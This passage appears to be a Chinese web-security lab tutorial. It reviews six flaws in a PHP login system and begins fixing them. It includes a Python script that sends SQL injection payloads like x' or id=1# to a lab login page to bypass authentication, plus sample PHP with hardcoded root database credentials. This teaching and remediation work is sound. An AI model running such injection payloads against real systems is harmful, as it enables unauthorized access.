 上述代码一共发现了6个漏洞

1、welcome.php页面谁都可以访问，没有进行登录判断(中)
2、在登录界面输入'作为用户名，报错信息存在login.php的绝对路径，暴露了系统后台的敏感信息(低)
3、保存用户信息的数据表中，密码字段是明文保存的，不够安全(中)
4、登录界面可以进行SQL注入，进而轻易实现登录(高)
5、login.php页面使用了万能验证码(中)
6、登录功能可以被爆破，没有进行爆破防护(中)

## SQL注入-登录漏洞-基础修复

### 一、使用Python进行注册测试

```python
import requests
# 利用Python对PHP的登录界面进行Fuzz测试

def login_fuzz():
    # 先使用单引号进行测试
    url = 'http://192.168.72.148/security/login.php'
    data = {'username': "'", 'password': '666666', 'vcode': '0000'}
    resp = requests.post(url=url, data=data)

    if 'Warning' in resp.text:
        print("本登录功能可能存在SQL注入漏洞，可以尝试")
        # 如果单引号存在利用嫌疑，则继续利用
        payload_list = ["x' or id=1#", "x' or userid=1#", "x' or userid=2#"]
        for username in payload_list:
            data = {'username': username, 'password': '666666', 'vcode': '0000'}
            resp = requests.post(url=url, data=data)
            if "login-fail" not in resp.text:
                print(f'登录成功，payload为：{data}')
    else:
        print('通过试探，发现后台界面对单引号不感兴趣;')

if __name__ == '__main__':
    login_fuzz()
```

### 二、任意访问授权界面

​		welcome.php页面谁都可以访问，没有进行登录判断，该页面是登录后才能访问，所以在该页面需要进行登录判断，代码修改为：

1、在common.php中添加session_start()，让其他页面引入，便于直接使用Session

```php
<?php
session_start();
function create_connection(){
    // 连接数据库
    $conn = mysqli_connect('127.0.0.1','root','123456','learn') or die("数据库连接不成功！"); 
    // 设置数据库的编码格式
    mysqli_query($conn,"set names utf8;");
    mysqli_set_charset($conn,'utf8');
    return $conn;
}

?>
```
